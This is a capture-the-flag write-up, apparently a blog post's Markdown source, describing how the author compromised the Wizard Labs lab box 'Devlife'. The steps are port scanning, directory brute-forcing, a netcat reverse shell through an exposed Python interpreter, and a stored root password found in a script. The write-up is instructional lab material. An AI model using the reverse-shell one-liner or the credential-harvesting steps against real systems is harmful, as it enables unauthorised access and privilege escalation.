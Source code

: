 ```yaml
---
layout: post
title: Wizard Labs - Devlife
categories: wizard-labs
tags: [Linux, Web, RCE, Python]
image: /wizardlabs/devlife/0.png
---
```

<hr>
### Quick Summary
#### Hey guys this is my write-up about Devlife from Wizard Labs which is their second box to retire. Just like [dummy](/wizard-labs/dummy/) it's another easy box (Difficulty : 2/10) , It's a linux box and its ip is `10.1.1.20` so let's jump right in !
![](/images/wizardlabs/devlife/0.png)
<hr>
### Nmap
#### We will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC 10.1.1.20`
![](/images/wizardlabs/devlife/1.png)
#### Only 2 ports are open , 22 running ssh and 80 running http. Let's check http.
<hr>
### HTTP Initial Enumeration
#### On the main page we get this "About me" message and nothing else :
![](/images/wizardlabs/devlife/2.png)
```
About Me

Hello , My name is Teddy Smith , I am a Python developer since 2007 !

Here I gonna share some Django tutorials and tutorials about System Administation in Python also I will write a Python online interpreter !!

Stay Tuned ...

TS

```
#### I ran `gobuster` with `/usr/share/wordlists/dirb/common.txt` and got these results :
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```
<br>
<hr>
### Getting user
#### So I checked `/dev` and found this `Online Python 2.7 Interpreter` :
![](/images/wizardlabs/devlife/3.png)
#### Great , now we can get a reverse shell in many ways , I just imported `os` then did `os.system(reverse shell payload)` :
`import os;os.system('nc -e /bin/bash 10.xx.xx.xx 1337')`
![](/images/wizardlabs/devlife/4.png)
<br>
<br>
![](/images/wizardlabs/devlife/5.png)
#### And we owned user !
<br>
<hr>
### Stored root Credentials , Privilege Escalation
#### In the `/home` directory of `tedd` there is a directory called `.env` , Let's check that.
![](/images/wizardlabs/devlife/6.png)
<br>
<br>
![](/images/wizardlabs/devlife/7.png)
#### We notice a python script called `su.py` , which runs `su root` and uses the password to authenticate :
![](/images/wizardlabs/devlife/8.png)
```
import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```
#### Now we can `su` to root using the password `teddyxy2019` :
![](/images/wizardlabs/devlife/9.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous Wizard Labs Write-up : [Wizard Labs - Dummy](/wizard-labs/dummy/)
<hr>

